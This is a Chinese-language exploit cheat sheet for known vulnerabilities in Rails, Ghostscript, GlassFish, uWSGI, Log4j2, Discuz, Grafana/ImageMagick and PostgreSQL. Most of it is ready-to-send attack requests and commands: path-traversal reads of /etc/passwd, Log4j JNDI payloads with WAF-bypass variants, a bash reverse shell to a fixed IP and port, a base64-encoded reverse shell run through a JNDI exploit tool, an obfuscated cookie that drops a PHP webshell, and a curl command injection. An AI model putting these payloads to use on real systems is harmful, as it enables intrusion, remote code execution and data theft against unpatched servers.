Ruby on Rails是一个 Web 应用程序框架,是一个相对较新的 Web 应用程序框架，构建在 Ruby 语言之上。

#### CVE-2019-5418

漏洞影响：
Ruby on Rails < 6.0.0.beta3
Ruby on Rails < 5.2.2.1
Ruby on Rails < 5.1.6.2
Ruby on Rails < 5.0.7.2

```
GET /robots HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

## PostScript

### Ghostscript
#### CVE-2018-16509

需要上传的poc.png
```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops
```


## 应用服务
### GlassFish

GlassFish 是一款强健的商业兼容应用服务器，达到产品级质量，可免费用于开发、部署和重新分发。开发者可以免费获得源代码，还可以对代码进行更改

#### 任意文件读取漏洞

- 漏洞详情
    - java语言中会把%c0%ae解析为\uC0AE，最后转义为ASCCII字符的.（点）。利用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来向上跳转，达到目录穿越、任意文件读取的效果。
- 漏洞利用

```
https://your-ip:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

### uWSGI

uWSGI是一款Web应用程序服务器，它实现了WSGI、uwsgi和http等协议，并支持通过插件来运行各种语言。

#### CVE-2018-7490

uWSGI 2.0.17之前的PHP插件，没有正确的处理DOCUMENT_ROOT检测，导致用户可以通过..%2f来跨越目录，读取或运行DOCUMENT_ROOT目录以外的文件。


```
http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd
```


## Jupyter

Jupyter Notebook（此前被称为 IPython notebook）是一个交互式笔记本，支持运行 40 多种编程语言。
### notebook-rce

Jupyter Notebook 未授权访问漏洞

如果管理员未为Jupyter Notebook配置密码，将导致未授权访问漏洞，游客可在其中创建一个console并执行任意Python代码和命令。


## Imagetragick

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。但近来有研究者发现，当用户传入一个包含『畸形内容』的图片的时候，就有可能触发命令注入漏洞。

### CVE-2016–3714

### Log4j2

Apache Log4j2 是一个基于 Java 的日志记录工具。该工具重写了 Log4j 框架，并且引入了大量丰富的特性。该日志框架被大量用于业务系统开发，用来记录日志信息。在大多数情况下，开发者可能会将用户输入导致的错误信息写入日志中。攻击者利用此特性可通过该漏洞构造特殊的数据请求包，最终触发远程代码执行。

探测工具bp插件：
- https://github.com/whwlsfb/Log4j2Scan
- https://github.com/f0ng/log4j2burpscanner

探测用burpsuite scan自动扫描 Dashboard可看见结果Issue activity。
#### CVE-2021-44228-log4j2-rce漏洞

Log4j2反弹shell

影响版本：all log4j-core versions >=2.0-beta9 and <=2.14.1


sh -i >& /dev/tcp/10.30.1.49/7777 0>&1

需要拿去base64编码链接如下

https://www.jackson-t.ca/runtime-exec-payloads.html

java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yLjEzMS83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}" -A 192.168.2.131


`nc -lvnp 7777`


GET传输需要URL对`{}`编码
```
%7bjndi:rmi://10.30.1.53:1099/ftvuph%7d
```

POST传输
```
POST /hello HTTP/1.1
Host: vulfocus.fofa.so:30484
Content-Type: application/x-www-form-urlencoded

payload="${jndi:rmi://10.30.1.53:1099/2yv22e}"
```


tomcat回显方法：
- 参考文章：https://zone.huoxian.cn/d/729-log4j2

```
POST /api/ HTTP/1.1
Host: xxxxx:6631
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
cmd:whoami
Content-Type: application/x-www-form-urlencoded
Content-Length: 57

data=${jndi:ldap://xxxx:1389/Basic/TomcatEcho}
```

`java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 0.0.0.0 -p 9190`

反弹shell：
`data=${jndi:ldap://xxxxx:1389/Basic/ReverseShell/xxxx/5551}`

其它dnslog payload：
```
c=${jndi:ldap://xxx.dnslog.cn}
```

Bypass WAF
```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```
图形化测试工具：https://github.com/nice0e3/log4j_POC


## 论坛/CMS框架

### Discuz

一套通用的社区论坛软件系统

#### wooyun-2010-080723

> Discuz 7.x/6.x 全局变量防御绕过导致代码执行

- 漏洞详情

- 漏洞利用

直接找一个已存在的帖子，向其发送数据包，并在Cookie中增加`GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();`

```
GET /viewthread.php?tid=10&extra=page%3D1 HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=phpinfo();
Connection: close
```

一句话:文件为x.php，密码为pwd
```
Cookie: GLOBALS[_DCACHE][smilies][searcharray]=/.*/eui; GLOBALS[_DCACHE][smilies][replacearray]=eval(Chr(102).Chr(112).Chr(117).Chr(116).Chr(115).Chr(40).Chr(102).Chr(111).Chr(112).Chr(101).Chr(110).Chr(40).Chr(39).Chr(120).Chr(46).Chr(112).Chr(104).Chr(112).Chr(39).Chr(44).Chr(39).Chr(119).Chr(39).Chr(41).Chr(44).Chr(39).Chr(60).Chr(63).Chr(112).Chr(104).Chr(112).Chr(32).Chr(64).Chr(101).Chr(118).Chr(97).Chr(108).Chr(40).Chr(36).Chr(95).Chr(80).Chr(79).Chr(83).Chr(84).Chr(91).Chr(112).Chr(119).Chr(100).Chr(93).Chr(41).Chr(63).Chr(62).Chr(39).Chr(41).Chr(59))
```


## Grafana

Grafana是一个开源的度量分析与可视化套件。

```
POST / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Length: 328

------WebKitFormBoundarymdcbmdQR1sDse9Et
Content-Disposition: form-data; name="file_upload"; filename="1.gif"
Content-Type: image/png

push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg"|curl "111.111.111.111:8889)'
pop graphic-context
------WebKitFormBoundarymdcbmdQR1sDse9Et--
```


${jndi:ldap://sl3i3t.dnslog.cn/exp}
### Grafana插件模块目录穿越漏洞

Grafana 8.x 插件模块目录穿越漏洞

这个漏洞出现在插件模块中，这个模块支持用户访问插件目录下的文件，但因为没有对文件名进行限制，攻击者可以利用../的方式穿越目录，读取到服务器上的任意文件。

利用这个漏洞前，我们需要先获取到一个已安装的插件id，比如常见的有：

```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```

再发送如下数据包，读取任意文件（你也可以将其中的alertlist换成其他合法的插件id）：
```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 192.168.1.112:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```


## 数据库

### Postgres

#### CVE-2019-9193

Navicat连接数据库，数据库初始账号密码为postgres/postgres

影响版本：PostgreSQL 9.3-11.2
poc
```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```

